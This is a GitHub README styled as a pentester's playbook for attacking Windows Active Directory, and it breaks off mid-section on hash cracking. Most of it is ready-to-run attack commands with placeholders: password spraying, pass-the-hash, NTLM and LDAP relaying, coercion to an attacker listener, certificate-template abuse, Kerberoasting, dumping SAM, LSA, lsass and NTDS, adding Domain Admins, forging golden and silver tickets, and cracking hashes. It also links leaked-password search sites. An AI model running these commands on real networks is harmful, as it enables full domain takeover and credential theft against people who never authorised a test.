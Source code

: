 [https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

https://www.n00py.io/2022/10/practical-attacks-against-ntlmv1/

https://medium.com/@offsecdeer/a-practical-guide-to-rbcd-exploitation-a3f1a47267d5

https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/rdp-mitm

https://www.thehacker.recipes/ad/movement/dacl/addmember

https://www.blackhillsinfosec.com/mitm6-strikes-again-the-dark-side-of-ipv6/

https://github.com/Hackndo/pyGPOAbuse

# Gunnajs-Playbook
How to pentest like a Gunnaj

![alt text](https://github.com/GunzyPunzy/Gunnajs-Playbook/blob/main/anfader-adc.jpg)

# Toolbox
<details>
  <summary> Utils </summary> 

  ### NMAP
  https://nmap.org/
  
  ### linWinPwn - Active Directory Vulnerability Scanner
  https://github.com/lefayjey/linWinPwn
  
  <details>
    <summary> Installation </summary>  
  
  #### Install the dependency NetExec
    
  ```shell
  apt install pipx git
  pipx ensurepath
  pipx install git+https://github.com/Pennyw0rth/NetExec
  ```
    
  #### Git clone the repository and make the script executable
  ```shell
  git clone https://github.com/lefayjey/linWinPwn
  cd linWinPwn; chmod +x linWinPwn.sh
  ```
  #### Install requirements using the `install.sh` script (using standard account)
  ```shell
  chmod +x install.sh
  ./install.sh
  ```
  </details>
  
  ### BloodHound
  https://github.com/BloodHoundAD/BloodHound
  
  <details>
    <summary> Installation </summary> 
    
  ```shell
  sudo apt-get install bloodhound
  ```
  ```shell
  sudo neo4j console
  ```
  #### Navigate to http://localhost:7474/ 
  
  </details>
  
  ### Responder
  https://github.com/lgandx/Responder
  
  ### NetExec
  https://www.netexec.wiki/
  
  <details>
    <summary> Installation </summary> 
  
  #### Installation
  ```shell
  apt install netexec
  ```
  #### Integrate Bloodhound
  ```shell
  nano ~/.nxc/nxc.conf
  ```
  ```shell
  [BloodHound]
  bh_enabled = True
  bh_uri = 127.0.0.1
  bh_port = 7687
  bh_user = <username>
  bh_pass = <password>
  ```
  
  </details>

  ### BloodyAD
  https://github.com/CravateRouge/bloodyAD
  
  <details>
    <summary> Installation </summary> 
    
  ```shell
  sudo apt-get install bloodyad
  ```
  
  </details>

  ### go-secdump
  https://github.com/jfjallid/go-secdump
  <details>
    <summary> Installation </summary>

  ```shell
  sudo apt install golang-go
  git clone https://github.com/jfjallid/go-secdump
  cd go-secdump/
  go run main.go
  go build
  ```
  </details>

  ### blindsight
  https://github.com/0xdea/blindsight
  <details>
    <summary> Installation </summary>

  ```shell
  =)
  ```
  </details>

  ### mitm6
  https://github.com/dirkjanm/mitm6
  <details>
    <summary> Installation </summary>

  ```shell
  sudo apt install mitm6
  ```
  </details>
  
  ### Evil-WinRM
  https://github.com/Hackplayers/evil-winrm
  
  <details>
    <summary> Installation </summary>
    
  ```shell
  gem install evil-winrm
  ```
  </details>
  
  ### FindUncommonShares
  https://github.com/p0dalirius/FindUncommonShares
  
  <details>
    <summary> Installation </summary> 
    
  ```shell
  git clone https://github.com/p0dalirius/FindUncommonShares
  cd FindUncommonShares/
  pip install -r requirements.txt
  ```
  </details>
  
  ### Impacket
  https://github.com/fortra/impacket
  
  ### pypykatz
  https://github.com/skelsec/pypykatz
  <details>
    <summary> Installation </summary> 
  
  #### Install prerequirements
  ```shell
  pip3 install minidump minikerberos aiowinreg msldap winacl
  ```
  #### Clone this repo
  ```shell
  git clone https://github.com/skelsec/pypykatz.git
  cd pypykatz
  ```
  #### Install it
  ```shell
  python3 setup.py install
  ```
  </details>

  ### certipty
  https://github.com/ly4k/Certipy
 
  ### breach-parse
  https://github.com/hmaverickadams/breach-parse
  
  ### PRET
  https://github.com/RUB-NDS/PRET
  <details>
    <summary> Installation </summary> 
    
  ```shell
  git clone https://github.com/RUB-NDS/PRET && cd PRET
  ```
  ```shell
  python -m pip install colorama pysnmP
  ```
  </details>

</details>

# Wordlists
<details>
  <summary> Lists </summary> 
  
  ### Generate wordlist
  https://zzzteph.github.io/weakpass/
  
  ### Top 10 million
  https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)
  
  ### Crackstation
  https://crackstation.net/files/crackstation.txt.gz (14.6 GB)
  
  ### Large p-list
  https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)
  
  ### Rockyou2021
  https://github.com/ohmybahgosh/RockYou2021.txt (91.6 GB)
</details>

# Leaked password
<details>
  <summary> Sites </summary>   

  ### breachdirectory (free)
  https://breachdirectory.org/

  ### Records Search (free)
  https://search.0t.rocks/

  ### DeHashed
  https://www.dehashed.com/

  ### Snusbase
  https://snusbase.com/

  ### breach-parse
  https://github.com/hmaverickadams/breach-parse
</details>

# Network enumeration
<details>
  <summary> NMAP </summary> 
  
  ### Nmap
  #### Ping scan
  ```shell
  sudo nmap -sP -p -oN <output.txt> <IP/mask>
  ```

  #### Full scan
  ```shell
  sudo nmap -PN -sC -sV -p- -oN <output.txt> <IP/mask>
  ```

  #### smb vuln scan
  ```shell
  sudo nmap -PN --script smb-vuln* -p139,445 -oN <output.txt> <IP/mask>
  ```

  ### Find DC IP
  #### Show domain name and DNS
  ```shell
  sudo mncli dev show eth0
  ```

  #### Show DC IP
  ```shell
  nslookup -type=SRV _ldap._tcp.dc._msdcs.<AD_domain>
  ```

  #### Show DC controllers in cmd
  ```shell
  nltest /dclist:<domainname>
  ```
</details>

<details>
  <summary> NetExec host enumeration </summary> 
  
  #### NetExec map network hosts 
  ```shell
  NetExec smb <subnet>
  ```
  
</details>

# Authentication
    
<details>
  <summary> NetExec domain authentication </summary> 

  #### Password
  ```shell
  sudo NetExec smb <Domain_Controller_IP> -u <AD_user> -p <AD_password>
  ```

  #### Pass-the-Hash
  ```shell
  sudo NetExec smb <Domain_Controller_IP> -u <AD_user> -H <hash[LM:NT]> 
  ```

  #### Kerberos
  ```shell
  sudo NetExec smb <Domain_Controller_IP> -u <AD_user> -k -p <AD_password>
  ```

  #### Using kcache

  ```shell
  export KRB5CCNAME=<Kerberos_ticket>
  ```

  ```shell
  sudo NetExec smb <Domain_Controller_IP> -u <AD_user> --use-kcache
  ```

  #### Pass-the-Certificate
  ```shell
  sudo NetExec smb <Domain_Controller_IP> -u <AD_user> ---pfx-cert <user.pfx>
  ```

</details> 
  
<details>
  <summary> NetExec local authentication </summary> 
  
  ```shell
  NetExec smb <target_IP> -u <AD_user> -H <hash[LM:NT]> --local-auth 
  ```

</details> 

<details>
  <summary> NetExec password spray </summary> 
  
  ### Spray a password on a user list
  ```shell
  NetExec smb <Domain_Controller_IP> -u users.txt -p <password> --continue-on-success
  ```

</details> 

# Acitve directory enumeration

<details>
  <summary> LDAPDomainDump </summary> 

#### Collect domain info
```shell
ldapdomaindump -u <Domain>\\<AD_user> -p <AD_password> <Domain_Controller_IP>
```

</details>

<details>
  <summary> NetExec active users </summary> 

#### Get what users are enabled
```shell
NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <AD_password> --active-users
```

</details>

<details>
  <summary> NetExec password policy </summary> 

#### Get the password policy of the domain
```shell
NetExec smb <Domain_Controller_IP> -u <AD_user> -p <AD_password> --pass-pol
```

</details>

<details>
  <summary> NetExec BloodHound dump all info </summary> 

#### Dump 
```shell
NetExec ldap <Domain_Controller_IP> -d <Domain> -u <AD_user> -p <AD_password> --bloodhound --collection All
```

</details>

<details>
  <summary> BloodHound mark all relevant groups as highvalue </summary> 

#### Query
```shell
MATCH (x:Group)
WHERE x.highvalue=true
MATCH p=shortestPath((n:Group)-[r*1..]->(x)) 
WHERE x <> n
AND NONE (r in relationships(p) WHERE type(r) = "CanRDP")
SET n.highvalue = true
RETURN http://n.name, n.highvalue
```

</details>

<details>
  <summary> NetExec enumerate null sessions </summary> 

#### Check if Null Session is enabled
```shell
NetExec smb <Domain_Controller_IP> -u '' -p ''
NetExec smb <Domain_Controller_IP> -u '' -p '' --shares
NetExec smb <Domain_Controller_IP> -u '' -p '' --pass-pol
NetExec smb <Domain_Controller_IP> -u '' -p '' --users
NetExec smb <Domain_Controller_IP> -u '' -p '' --groups
```

</details>

<details>
  <summary> NetExec enumerate guest logon </summary> 

#### Check if domain guest account or the local guest account is enabled
```shell
NetExec smb <Domain_Controller_IP> -u 'a' -p ''
NetExec smb <Domain_Controller_IP> -u 'a' -p '' --shares
```

</details>

<details>
  <summary> NetExec enumerate logged on users </summary> 

####  Domain account
```shell
NetExec smb <target_IP> -u <AD_user> -p <AD_password> -H <hash[LM:NT]> --reg-sessions
```

####  Domain account with local admin rights 
```shell
NetExec smb <target_IP> -u <AD_user> -p <AD_password> -H <hash[LM:NT]> --loggedon-users
```

####  Local account with local admin rights 
```shell
NetExec smb <target_IP> -u <local_user> -H <hash[LM:NT]> --local-auth --loggedon-users
```

</details>

<details>
  <summary> linWinPwn </summary> 
  
  ### Unauthenticated
  - Module ad_enum
      - RID bruteforce using netexec
      - Anonymous enumeration using netexec, enum4linux-ng, ldapdomaindump, ldeep
      - Pre2k authentication check on collected list of computers
  - Module kerberos
      - kerbrute user spray
      - ASREPRoast using collected list of users (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Blind Kerberoast
      - CVE-2022-33679 exploit
  - Module scan_shares
      - SMB shares anonymous enumeration on identified servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on identified servers
      - Check for ms17-010, zerologon, petitpotam, nopac, smb-sigining, ntlmv1, runasppl weaknesses
  ```shell
   sudo ./linWinPwn.sh -t <Domain_Controller_IP_or_Target_Domain> -M user <output_dir>
  ```

  ### With AD-user credentials 
  - DNS extraction using adidnsdump
  - Module ad_enum
      - BloodHound data collection
      - Enumeration using netexec, enum4linux-ng, ldapdomaindump, windapsearch, SilentHound, ldeep
          - Users
          - MachineAccountQuota
          - Password Policy
          - Users' descriptions containing "pass"
          - ADCS
          - Subnets
          - GPP Passwords
          - Check if ldap-signing is enforced, check for LDAP Relay
          - Delegation information
      - netexec find accounts with user=pass 
      - Pre2k authentication check on domain computers
      - Extract ADCS information using certipy and certi.py

  - Module kerberos
      - kerbrute find accounts with user=pas
      - ASREPRoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Targeted Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
  - Module scan_shares
      - SMB shares enumeration on all domain servers using smbmap and cme's spider_plus
      - KeePass files and processes discovery on all domain servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on all domain servers
      - Check for ms17-010, ms14-068, zerologon, petitpotam, nopac, smb-signing, ntlmv1, runasppl weaknesses
  - Module mssql_enum
      - Check mssql privilege escalation paths
  ```shell
  sudo ./linWinPwn.sh -t <Domain_Controller_IP_or_Target_Domain> -u <AD_user> -p <AD_password> -o <output_dir>
  ```
</details>

# Share enumeration

<details>
  <summary> List readable or writable shares </summary> 

```shell
NetExec smb <target_IP> -u AD_user -p <password>  --shares --filter-shares READ WRITE
```

</details>

<details>
  <summary> List uncommon shares and export as xlsx </summary> 

```shell
python3 ./FindUncommonShares.py -au AD_user -ap <password> -ad <AD_domain> -ai <Domain_Controller_IP> --readable --export-xlsx shares
```

</details> 

<details>
  <summary> Impacket smbclient </summary> 
  
### Passord authentication
```shell
impacket-smbclient <AD_domain>/<username>:<password>@<target_IP>
```

### Pass-the-Hash
```shell
impacket-smbclient -hashes <hash[LM:NT]> <username>:@<target_IP>
```

</details> 

<details>
  <summary> Mount and unmount shares </summary> 

### Mount share
```shell
sudo mount.cifs <//ip/folder> <./folder> -o user=<username>,password=<password>,dom=<AD_domain>
```

### Unmount share
```shell
sudo umount <./folder>
```

### Search for keywords in files
```shell
grep -i <keyword> *
```

</details> 

# Computer accounts 

<details>
  <summary> NetExec MachineAccountQuota </summary> 

#### Retrieve the MachineAccountQuota 
```shell
NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <AD_password> -M maq
```

</details>

<details>
  <summary> impacket-addcomputer </summary> 

#### Create a computer account
```shell
impacket-addcomputer -dc-ip <Domain_Controller_IP> -computer-name <Computer_Name> -computer-pass '<computer_password>' '<AD_domain>/<AD_user>:<AD_password>'
```

</details>

<details>
  <summary> Pre-Windows 2000 computers </summary> 

#### NetExec pre2k - obtain tickets
```shell
NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <AD_password> -M pre2k
```

</details>

# MITM and Relaying
<details>
  <summary> Responder </summary> 
  
  ### Kickstart responder
  ```shell
  sudo responder -I eth0
  ```

  Switches for Responder
  * -d = DHCP 
  * -D = DHCP-DNS
  * -w = WPAD
  * -F = Force WPAD atuh
  * --lm = Force ntlmv1
  * --disable-ess = No ESS (Extended Session Security
  
 </details>
 <details>
  <summary> NetExec lnkfile with slinky </summary> 
  
  ### Creates a lnk file for a share with read/write rights
  ```shell
  netexec smb <Target_IP> -u <AD_user> -p <AD_password> -M slinky -o NAME=<filename> SERVER=<attacker_IP>
  ```
   
  ### Remove the lnk file
  ```shell
  netexec smb <Target_IP> -u <AD_user> -p <AD_password> -M slinky -o NAME=<filename> SERVER=<attacker_IP> CLEANUP=True
  ```
    
</details>
<details>
  <summary> NTLM-relay </summary>   

  ### Evaluate no smb-signing and create an IP txt file for NTLMRelayx
  ```shell
  netexec smb <IPs> --gen-relay-list <nosmbsigning.txt>
  ```

  ### NTLMRelayx
  ```shell
  sudo impacket-ntlmrelayx -of <outfile.txt> -tf <nosmbsigning.txt> -smb2support
  ```

  ### go-secdump NTLM Relaying
  ```shell
  ./go-secdump --host <target> -n --relay
  ```

  ### Disbale SMB and HTTP in Responder.conf
  ```shell
  [Responder Core]

  ; Servers to start
  SQL = On
  SMB = Off
  RDP = On
  Kerberos = On
  FTP = On
  POP = On
  SMTP = On
  IMAP = On
  HTTP = Off
  HTTPS = On
  DNS = On
  LDAP = On
  DCERPC = On
  WINRM = On
  SNMP = Off
  ```

### Kicksart responder then
  ```shell
  sudo responder -I eth0 
  ```
</details>

<details>
  <summary> NTLMv1-relay </summary>   

  ### NTLMRelayx delegate access if NTLMv1 is enabled
  #### Authentication can be forced via NetExec's coerce_plus Module, check if the answer is in NTLMv1
  ```shell
  sudo python3 ntlmrelayx.py -t ldaps://<target> --remove-mic -smb2support --delegate-access
  ```

</details>

<details>
  <summary> LDAP-relay </summary>   

  ### Evaluate no ldap-signing and create an IP txt file for NTLMRelayx
  ```shell
  NetExec ldap <IPs> -d <Domain_Name> -u <AD_user> -p <AD_password> -M ldap-checker
  ```

  ### NTLMRelayx escalate user to Enterprise Admins (DCSync rights)
  ```shell
  sudo impacket-ntlmrelayx -t ldaps://<Domain_Controller_IP> --escalate-user <AD_user>
  ```

  ### NTLMRelayx delegate access
  ```shell
  sudo impacket-ntlmrelayx -t ldaps://<Domain_Controller_IP> --delegate-access
  ```

  ### Disbale SMB and HTTP in Responder.conf
  ```shell
  [Responder Core]

  ; Servers to start
  SQL = On
  SMB = Off
  RDP = On
  Kerberos = On
  FTP = On
  POP = On
  SMTP = On
  IMAP = On
  HTTP = Off
  HTTPS = On
  DNS = On
  LDAP = On
  DCERPC = On
  WINRM = On
  SNMP = Off
  ```

### Kicksart responder then
  ```shell
  sudo responder -I eth0 
  ```
</details>

<details>
  <summary> mitm6-relay </summary>   

  ### mitm6
  ```shell
  sudo mitm6 -d <Domain_Name>
  ```

  ### NTLMRelayx 
  ```shell
  impacket-ntlmrelayx -6 -t ldaps://<Domain_Controller_IP> -wh fakewpad.<Domain_Name> -l loot 
  ```

</details>

<details>
  <summary> Kerberos-relay </summary>   

  ### In the works
  ```shell
  ---
  ```

</details>

<details>
  <summary> NetExec coerce_plus </summary> 
  
  ### NetExec Coerce Authentication
  ```shell
  NetExec smb <target> -u <AD_user> -p <AD_password> -M coerce_plus -o LISTENER=<AttackerIP> METHOD=<method>
  ```
  ### Methods
  * PetitPotam
  * printerbug
  * dfscoerce
</details> 

# Delegation abuse

<details>
  <summary> BloodHound query for Delegation rights </summary> 
  
  ```shell
  MATCH q=(u)-[:GenericWrite|GenericAll|WriteDacl|
WriteOwner|Owns|WriteAccountRestrictions|AllowedToAct|AllowedToDelegate]->(:Computer) WHERE NOT
u.objectid ENDS WITH "-512" AND NOT
u.objectid ENDS WITH "-519" AND NOT
u.objectid ENDS WITH "-544" AND NOT
u.objectid ENDS WITH "-548" RETURN q
  ```
</details> 

<details>
  <summary> Netexec misconfigured delegation </summary> 
  
  ```shell
  NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <password> --find-delegation
  ```
</details> 

<details>
  <summary> Netexec trusted for delegation </summary> 

  ```shell
  NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <password> --trusted-for-delegation
  ```
    
</details> 
    
# AD Certificates

<details>
  <summary> NetExec list all PKI enrollment servers </summary> 
  
  ```shell
  NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <password> -M adcs
  ```
</details> 

<details>
  <summary> Certipy find vulnerable certificates </summary> 
  
  ```shell
  certipy find -u <AD_user> -p <password> -dc-ip <Domain_Controller_IP> -vulnerable -stdout -enabled -text -json
  ```
</details> 

<details>
  <summary> ESC1 </summary> 

  ```shell
  certipy req -u <AD_user>\@<domain> -p <password> -dc-ip <Domain_Controller_IP> -ca <Certificate_authorities> -target <target_server> -template <vulnerable_template> -upn AD_user@<domain> -sid <user_SID>
  ```
</details> 

<details>
  <summary> ESC8 </summary> 
  
  ### http
  ```shell
  certipy relay -target <target_server> -ca <Certificate_authorities> -template <vulnerable_template>
  ```

  ### https
  ```shell
  ntlmrelayx.py -t https://<target_server>/certsrv/certfnsh.asp -smb2 --adcs --template <vulnerable_template>
  ```
  #### --template 'Domain Controller' can be most times be used

  ### NetExec Coerce Authentication
  ```shell
  NetExec smb <target> -u <AD_user> -p <AD_password> -M coerce_plus -o LISTENER=<AttackerIP> METHOD=<method>
  ```
  ### Methods
  * PetitPotam
  * printerbug
  * dfscoerce

</details> 

# Kerberoasting & ASREPRoast
<details>
  <summary> Kerberoasting </summary> 

  ```shell
  NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <password> --kerberoasting <output>.txt
  ```
  </details> 

  <details>
  <summary> ASREPRoast </summary> 

  ```shell
  NetExec ldap <Domain_Controller_IP> -u <AD_user> -p '' --asreproast <output>.txt
  ```

</details> 

# Credential dumping

<details>
  <summary> Domain authentication </summary> 

  ### Dump NT:hash with masky with domain user
  ### Get ADCS server name
  ```shell
  NetExec ldap <target_IP> -u <AD_user> -p <password> -H <hash[LM:NT]]> -M adcs
  ```

  ### Retrieve the NT hash using PKINIT
  ```shell
  NetExec ldap <target_IP> -u <AD_user> -p <password> -H <hash[LM:NT]> -M masky -o CA=<'ADCS_server_name'>
  ```
  
  ### NetExec Dump SAM with domain user
  ```shell
  NetExec smb <target_IP> -u <AD_user> -p <password> -H <hash[LM:NT]]> --sam
  ```

  ### go-secdump Dump SAM with domain user
  ```shell
  ./go-secdump --domain <Domain_Controller_IP> --host <target_IP> --user <AD_user> ---pass <password> --hash <hash[LM:NT]]> --sam
  ```
  
  ### NetExec Dump LSA with domain user
  ```shell
  NetExec smb <target_IP> -u <AD_user> -p <password> -H <hash_NT]> --lsa
  ```
  ### go-secdump Dump LSA with domain user
  ```shell
  ./go-secdump --domain <Domain_Controller_IP --host <target_IP> --user <AD_user> ---pass <password> --hash <hash[LM:NT]]> --lsa
  ```

</details> 

<details>
  <summary> Local authentication </summary> 
  
  ### NetExec Dump SAM on local computer
  ```shell
  NetExec smb <target_IP> -u <local_user> -p <password> -H <hash[LM:NT]> --local-auth --sam
  ```

  ### sec-dump Dump SAM on local computer
  ```shell
  ./go-secdump --domain <Domain_Controller_IP --host <target_IP> --user <local_user> ---pass <password> --hash <hash[LM:NT]]> --sam --local
  ```
  
  ### NetExec Dump LSA on local computer
  ```shell
  NetExec smb <target_IP> -u <local_user> -p <password> -H <hash[LM:NT]> --local-auth --lsa
  ```

  ### go-secdump Dump LSA on local computer
  ```shell
  ./go-secdump --domain <Domain_Controller_IP --host <target_IP> --user <local_user> ---pass <password> --hash <hash[LM:NT]]> --lsa --local
  ```

  ### NetExec Dump lsass with hash_spider to recursively using BloodHound to find local admins path (adminTo)
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --local-auth -M hash_spider
  ```

  ### Stored User Names and Passwords on Windows Credential Manager
  ```shell
  rundll32.exe keymgr.dll KRShowKeyMgr
  ```
  
</details> 

<details>
  <summary> NetExec dump with ReadLAPSPassword rights </summary> 

  ### Check if the user can read LAPS
  ```shell
  NetExec ldap <AD_domain> -u <username> -p <password> -H <hash[LM:NT]> -M laps
  ```
  
  ### Dump SAM 
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -M laps --sam
  ```
  
  ### Dump LSA 
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --M laps --lsa
  ```
  
</details> 

<details>
  <summary> Run blindsigt from impackets smb share </summary> 

  ### Starting a SMB Server
  ```shell
  impacket-smbserver.py <shareName> <sharePath>
  ```
  
  ### Run blindsight from host 
  ```shell
  \\<target_IP>\<shareName>\blindsight.exe
  ```

  ### Retrieve the file
  ```shell
  lget <output>.log
  ```

  ### Unscramble memory dump:
  ```shell
  blindsight.exe <output>.log
  ```
  
</details> 

<details>
  <summary> Examine lsass dump with pypykatz </summary> 

```shell
pypykatz lsa minidump lsass.DMP
```
</details> 

<details>
  <summary> NetExec Dump the NTDS.dit from target DC (DCSync) </summary> 

#### Dump all user hashes
```shell
NetExec smb <Domain_Controller_IP> -d <AD_domain> -u <AD_user> -p <AD_password> --ntds
```

#### Dump a specific user hash
```shell
NetExec smb <Domain_Controller_IP> -d <AD_domain> -u <AD_user> -p <AD_password> --ntds --user <AD_user>
```
</details> 

# Remote Code Execution

<details>
  <summary> NetExec </summary> 
  
  ### Executes command via the follwoing protocols: 
  * `wmiexec` executes commands via WMI
  * `atexec` executes commands by scheduling a task with windows task scheduler
  * `smbexec` executes commands by creating and running a service
  
  #### command
  ```shell
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]]> -x <command>
  ```
  #### PowerShell
  ```shell
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -X <command>
  ```
  #### Task Scheduler
  ```shell
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
  ```
</details> 

<details>
  <summary> Evil-WinRM </summary> 
  
  ```shell
  evil-winrm -i <target_IP> -u <username> -p <password> -H <hash[LM:NT]>
  ```
</details> 

<details>
  <summary> pth-rpcclient </summary> 

  ```shell
  pth-rpcclient -U <AD_domain>/<username>%<hash[LM:NT]> <Domain_Controller_IP>
  ```
</details> 

<details>
  <summary> pth-net add new domain admin </summary> 

  ```shell
  pth-net rpc group addmem "Domain Admins" <username> -U <AD_domain>/<username>%<hash[LM:NT]> -S <Domain_Controller_IP>
  ```
</details> 

<details>
  <summary> Command to add a new Domain Admin </summary> 
  
  #### Create the new user
  ```Shell
  net user <username> <password> /add /domain
  ```

  #### Add the new user to the Domain Admins group
  ```Shell
  net group "Domain Admins" <username> /add /domain
  ```

  #### Add user to Domain Admins by creating a scheduled task
  ```Shell
  schtasks /create /tn "AddDomainAdmin" /tr "net group \"domain admins\" <AD_User> /add /domain" /sc once /st 08:30 /ru "<Domain_Name\<Privilged_AD_User>"
  ```

  #### Running the scheduled task
  ```Shell
  schtasks /run /tn "AddDomainAdmin"
  ```

  #### Add an user to the domain admin
  ```ps
  powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
  ```
</details> 

# AV Evasion

<details>
  <summary> NetExec </summary> 
  
  </details> 

</details> 
  
# golden and silver tickets

<details>
  <summary> Silver tickets </summary> 

| Service Type                               | Service Silver Tickets   |
|--------------------------------------------|--------------------------|
| WMI                                        | HOST, RPCSS              |
| PowerShell Remoting                        | HOST, HTTP, WSMAN, RPCSS |
| WinRM                                      | HOST, HTTP               |
| Scheduled Tasks                            | HOST                     |
| Windows File Share (CIFS)                  | CIFS                     |
| LDAP operations including Mimikatz DCSync  | LDAP                     |
| Windows Remote Server Administration Tools | RPCSS, LDAP, CIFS        |


</details>

<details>
  <summary> Tickets </summary> 
  
#### Get user SID value by using the Windows Terminal
```cmd
wmic useraccount where name="USER" get sid
```

#### Silver ticket
```shell
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> -spn <service>/<AD_domain>l <user>
```
#### Golden ticket
```shell
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> <user>
```
#### Set the ticket for impacket use
```shell
export KRB5CCNAME=<TGS_ccache_file>
```

#### List tickets
```shell
klist
```

#### Execute remote commands with any of the following by using the TGT
```shell
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

</details>

# Printers
<details>
  <summary> PRET </summary> 

  ### Nmap printers
  ```shell
  nmap -p 9100 <IP/mask>
  ```
  ### cheat sheet
  ```shell
  http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet
  ```
  ### Kickstart PRET 
  ```shell
  pret.py target {ps,pjl,pcl}
  ```
</details>

# Hash cracking
<details>
  <summary> Attack modes </summary> 

  ### Dictionary attack (-a 0)
  #### Tries all words in a list
  ```shell
  hashcat64.exe -m <hash_type> -a 0 <hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Combinator attack (-a 1)
  #### Combines words from multiple wordlists
  ```shell
  hashcat64.exe -m <hash_type> -a 1 <hashes.txt> <passlist1.txt> <passlist2.txt> -o cracked.txt
  ```

  ### Brute force (-a 3)
  #### Tries all characters from given charsets
  ```shell
  hashcat64.exe -m <hash_type> -a 3 <hashes.txt> ?a?a?a?a?a?a?a?a --increment -o cracked.txt
  ```

  ### Hybrid (-a 6)
  #### Combines wordlists+masks
  ```shell
  hashcat64.exe -m <hash_type> -a 6 <hashes.txt> <passlist.txt> ?a?a?a?a?a?a?a?a --increment -o cracked.txt
  ```

  ### Hybrid (-a 7)
  #### Combines masks+wordlists
  ```shell
  hashcat64.exe -m <hash_type> -a 7 <hashes.txt> ?a?a?a?a?a?a?a?a <passlist.txt> --increment -o cracked.txt
  ```

 #### Built-in charsets
 * ?l = abcdefghijklmnopqrstuvwxyz
 * ?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ
 * ?d = 0123456789
 * ?h = 0123456789abcdef
 * ?H = 0123456789ABCDEF
 * ?s = «space»!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
 * ?a = ?l?u?d?s
 * ?b = 0x00 - 0xff
 
 #### Password length increment
* --increment-min <number>
* --increment-max <number>
</details>

<details>
  <summary> Hash types </summary> 

  ### LM

  ```shell
  hashcat64.exe -m 3000 -a 3 <LM-hashes.txt> -o cracked.txt
  ```

  ### NTLM
  ```shell
  hashcat64.exe -m 1000 -a 3 <NTLM-hashes.txt> -o cracked.txt
  ```
  dcsync
  ```shell
  hashcat64.exe -m 1000 -a 3 --username <NTLM-hashes.txt> -o cracked.txt
  ```

  ### NTLMv1
  ```shell
  hashcat64.exe -m 5500 -a 3 <NTLMv1-hashes.txt> -o cracked.txt
  ```

  ### NTLMv2
  ```shell
  hashcat64.exe -m 5600 -a 0 <NTLMv2-hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos ASREP
  ```shell
  hashcat64.exe -m 18200 -a 0 <asrep-hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS
  ```shell
  hashcat64.exe -m 13100 -a 0 <krb5tgs-hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES128
  ```shell
  hashcat64.exe -m 19600 -a 0 <krb5tgsaes128-hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES256
  ```shell
